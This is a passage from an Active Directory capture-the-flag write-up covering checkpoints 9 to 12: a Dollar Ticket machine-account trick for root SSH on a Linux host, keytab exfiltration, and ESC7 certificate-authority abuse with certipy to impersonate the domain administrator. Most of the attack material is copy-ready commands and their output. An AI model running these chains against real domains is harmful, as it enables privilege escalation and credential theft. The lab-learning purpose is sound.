# INTEL$   READ

smbclient.py -k -no-pass -dc-ip 10.15.10.20 -target-ip 10.15.10.20 \
  -inputfile <(printf 'use INTEL$\nls\nget flag09.txt\n') \
  'darshan.lab/TROY$@darshanide.darshan.lab'
```

Alongside the flag, `LISEZMOI-orazur.txt`:

> ORAZUR is our Linux server, don't forget to administer it too before go-live.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


---

## 10 Castel Or-Azur

`orazur.darshan.lab` is `10.15.10.32`. Debian 12, OpenSSH 9.2, port 22 and nothing else. Its AD computer object carries the hint in plain text:

```
operatingSystem: pc-linux-gnu
description: Linux server of the empire. Administered via Kerberos SSO (SSH GSSAPI).
             Service accounts only.
```

I read "service accounts only" as a control rather than a comment, and lost about ninety minutes to it.

Everything refused: `TROY$@DARSHAN.LAB`, `nicolede@TROY.LAB`, `gmsa-hebus$@TROY.LAB`, `cixi@TROY.LAB`, machine accounts I created, `CTF10SVC$` (a service account the lab had provisioned, whose password we did not have). Enumeration of `darshan.lab` through the trust turned up nothing: no gMSA, no kerberoastable SPN, no AS-REP roastable account, default ACLs everywhere, and DCSync refused to `TROY$` with `ERROR_DS_DRA_BAD_DN`.

I then went down the certificate path. `DARSHAN-CA` publishes a template called `DarshanLogin` with Client Authentication and `EnrolleeSuppliesSubject`, which means a free UPN in the SAN, which means impersonation. But it also has `PendAllRequests`, Manager Approval, so requests sit in `pending` forever unless an officer issues them. I filed three (IDs 4, 5, 6) and watched them not move.

And a detour that felt clever and was not: I found `DarshanLogin` referenced in `C:\setup` on ECKMUL, went looking for it on the troy CA, and it does not exist there. Fifteen enabled templates on `TROY-CA`, none of them that one. I had matched a filename to a template name across two forests.

The actual answer was much simpler, and Retro found it. **The account name is the mapping.** sshd's GSSAPI path ends in `ssh_gssapi_krb5_userok()`, which calls `krb5_kuserok()`, and that is the gate every principal I tried was failing. But `krb5_kuserok()` dispatches to MIT localauth plugins, and this box runs [SSSD](https://sssd.io/docs/introduction.html), which installs [its own plugin](https://man.archlinux.org/man/sssd_krb5_localauth_plugin.8.en) while leaving MIT's default realm-stripping rule in place. So a machine account called `root$` resolves to `root@DARSHAN.LAB`, the realm gets stripped, and you land on the UNIX user `root`. The trailing `$` is never checked because nothing enforces the PAC here.

This has a name, and I only learned it afterwards: the [Dollar Ticket attack](https://wiki.samba.org/index.php/Security/Dollar_Ticket_Attack).

```bash
export KRB5_CONFIG=/workspace/recon/krb5.conf
getTGT.py -dc-ip 10.15.10.20 'darshan.lab/root$:<redacted>'
export KRB5CCNAME=/workspace/loot/'root$.ccache'

ssh -o GSSAPIAuthentication=yes -o PreferredAuthentications=gssapi-with-mic \
    -o StrictHostKeyChecking=no root@orazur.darshan.lab 'id; cat /root/flag10.txt'
```

```
uid=0(root) gid=0(root) groups=0(root)
adctf{8fc8d096…}
```

Machine account quota on `darshan.lab` was the default 10, so anyone with a foothold could create `root$`. "Service accounts only" was a description of the intended design, not an enforced control, and I treated it as a wall because it was written in the object.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


---

## 11 The Castellan's Signet

Root on a domain joined Linux host means you own `/etc/krb5.keytab`, which holds the host's own machine account key. On a Linux box, that file is the equivalent of `$MACHINE.ACC` in LSA.

```bash
# 1. exfil the keytab
ssh root@orazur.darshan.lab 'base64 /etc/krb5.keytab' | tr -d '\n' | base64 -d > orazur.keytab

# 2. TGT as the machine account itself
export KRB5_CONFIG=/workspace/recon/krb5.conf
KRB5CCNAME=/workspace/loot/orazur.ccache kinit -k -t /workspace/loot/orazur.keytab 'ORAZUR$@DARSHAN.LAB'

# 3. a share TROY$ could see and never open
export KRB5CCNAME=/workspace/loot/orazur.ccache
smbclient.py -k -no-pass -dc-ip 10.15.10.20 -target-ip 10.15.10.20 \
  -inputfile <(printf 'use ORAZUR$\nget flag11.txt\n') \
  'darshan.lab/ORAZUR$@darshanide.darshan.lab'
```

The `ORAZUR$` share on DARSHANIDE had been returning `ACCESS_DENIED` to `TROY$` since checkpoint 09. The ACL is on the machine identity, and we finally had it.

`kinit -k -t` rather than an impacket tool here, because a keytab is a native Kerberos artifact and MIT's client reads it directly. No conversion needed.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


---

## 12 The Ivory of the Magohamoth / Darshan

Back to `DarshanLogin`, the template that had been sitting in `pending` for ninety minutes.

[ESC7](https://www.thehacker.recipes/ad/movement/adcs/access-controls) is the CA access control case from [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2). Two rights matter and they are easy to mix up. `ManageCertificates` is the CA **Officer** role, and on its own it is enough to approve a request that is sitting in `pending`, because that is the permission `ICertAdminD::ResubmitRequest` checks. `ManageCA` is the CA **Administrator** role, which is what lets you grant yourself the officer right in the first place, and what you additionally need if the CA has already *denied* the request. Manager Approval stops an attacker who is neither, and becomes a formality for one who is both. [Certipy's privilege escalation wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation) documents the whole ESC1 to ESC17 range if you want the map.

The machine account `root$`, the one created to get an SSH session on ORAZUR, had both. That is less of a coincidence than it looks, and I will come back to why at the end of this section. `ORAZUR$` did not, whatever the CA's own listing suggested: certipy refused it with "Insufficient permissions to issue certificate", which is what you get without the officer right. Hatsu spotted the pending-to-officer-to-issue sequence.

```bash
# request with a SAN we do not own
certipy req -u 'root$@darshan.lab' -k -no-pass \
  -target darshanide.darshan.lab -dc-ip 10.15.10.20 \
  -ca DARSHAN-CA -template DarshanLogin -upn administrator@darshan.lab -out rootadm
# -> Request ID 16, status pending

# approve it as ourselves
certipy ca -u 'root$@darshan.lab' -k -no-pass \
  -target darshanide.darshan.lab -dc-ip 10.15.10.20 \
  -ca DARSHAN-CA -issue-request 16
# -> Successfully issued certificate request ID 16

# collect
certipy req -u 'root$@darshan.lab' -k -no-pass \
  -target darshanide.darshan.lab -dc-ip 10.15.10.20 \
  -ca DARSHAN-CA -retrieve 16 -out rootadm
```

The resulting certificate:

```
Subject      : CN=ROOT$
SAN othername: UPN::administrator@darshan.lab
               sid:S-1-5-21-…-500
```

A certificate for RID 500 in the second domain, issued by the domain's own CA.

One last snag. The PFX Retro produced used an **ECDSA** key, and certipy's PKINIT implementation is RSA only. Rather than regenerate we used the LDAP shell path, which authenticates over a channel that does not care:

```bash
certipy auth -pfx admin.pfx -dc-ip 10.15.10.20 -domain darshan.lab \
  -username administrator -ldap-shell
# Authenticated to '10.15.10.20' as: u:DARSHAN\Administrator
```

From there, checking group membership showed the joke, and the answer to why `root$` held both CA rights in the first place: it was already in `CN=Administrators` and `CN=Domain Admins`. The machine account we had created two checkpoints ago purely to get an SSH session was a Domain Admin the whole time, which is also why the CA treated it as an administrator. We never needed the impersonation certificate to read the flag. We needed it to notice that we already could.

```bash
KRB5CCNAME=root2.ccache smbclient.py -k -no-pass -dc-ip 10.15.10.20 -target-ip 10.15.10.20 \
  'darshan.lab/root$@darshanide.darshan.lab' \
  -inputfile <(printf 'use C$\ncd flags\nget flag12.txt\n')
```

12/12 at 19:50.


*(kill chain generated by [Exegol Studio](https://exegol.com/studio).)*


---

## Thanks

Big thanks to mpgn for building this one, and more generally to everyone who puts these labs together. Twelve chained checkpoints, a custom IIS app with a deliberate sink, a WDAC policy, a real second forest and a Linux box behind SSSD: none of that work is visible from the outside, and there is a lot of it. Same for the platform, the map and the progressive unlocking, which did more for the pacing of the day than I expected.

And thanks to Retro, Hatsu and Mr.NOODLE, who were on it all day and made it a genuinely fun one.

Already looking forward to the next one.

---

## Resources

**Tooling**
- [NetExec](https://github.com/Pennyw0rth/NetExec) and its [wiki](https://www.netexec.wiki/)
- [Certipy](https://github.com/ly4k/Certipy)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)
- [Impacket](https://github.com/fortra/impacket)
- [BloodHound](https://github.com/SpecterOps/BloodHound) and [bloodhound-python](https://github.com/dirkjanm/BloodHound.py)
- [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)
- [pywhisker](https://github.com/ShutdownRepo/pywhisker)
- [pywsus](https://github.com/GoSecure/pywsus)
- [GoldenGMSA](https://github.com/Semperis/GoldenGMSA)
- [libfaketime](https://github.com/wolfcw/libfaketime)
- [dploot](https://github.com/zblurx/dploot), machine scope DPAPI from Linux
- [SharpWSUS](https://www.lrqa.com/en/cyber-labs/introducing-sharpwsus/)
- [Exegol](https://exegol.readthedocs.io/)
- [Exegol Studio](https://exegol.com/studio), the Atlas and kill chain features used throughout this writeup

**Techniques**
- [The Hacker Recipes](https://www.thehacker.recipes/), the reference for almost every chain above
- [Exploiting ADIDNS](https://www.netspi.com/blog/technical-blog/network-pentesting/exploiting-adidns/), Kevin Robertson
- [WSUS attacks part 1](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/) and [part 2](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/), GoSecure
- [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2), the ADCS paper that defines ESC1 to ESC8
- [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab), Elad Shamir
- [A Red Teamer's Guide to GPOs and OUs](https://wald0.com/?p=179), Andy Robbins
- [DPAPI protected secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)
- [Server side XSS in dynamic PDF generation](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.html)
- [Kerberos PKINIT](https://www.thehacker.recipes/ad/movement/kerberos/pkinit)
- [Abusing AD trusts](https://www.thehacker.recipes/ad/movement/trusts)
- [WDAC / App Control for Business](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/appcontrol)
- [UnPAC the hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash)
- [ADIDNS revisited](https://www.netspi.com/blog/technical-blog/network-pentesting/adidns-revisited/), Kevin Robertson
- [The Golden gMSA attack](https://www.semperis.com/blog/golden-gmsa-attack/), Yuval Gordon
- [Operational guidance for offensive DPAPI abuse](https://blog.harmj0y.net/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/), harmj0y
- [The Dollar Ticket attack](https://wiki.samba.org/index.php/Security/Dollar_Ticket_Attack)
- [How does SID filtering work](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/), Dirk-jan Mollema
- [Certipy privilege escalation wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation), the ESC1 to ESC17 map
- [MS-ADTS: MSDS-MANAGEDPASSWORD_BLOB](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e) and [MS-WUSP](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-wusp/a5c9d6d1-e24a-4982-add3-16cfc3f35b53)

**Previous labs in the same series**
- [NetExec Workshop, LeHack 2025](../lehack2025-netexec-comprehensive/)
- [NetExec Workshop, BarbHack 2024](../barbhack-ctf-2024-netexec-workshop/)
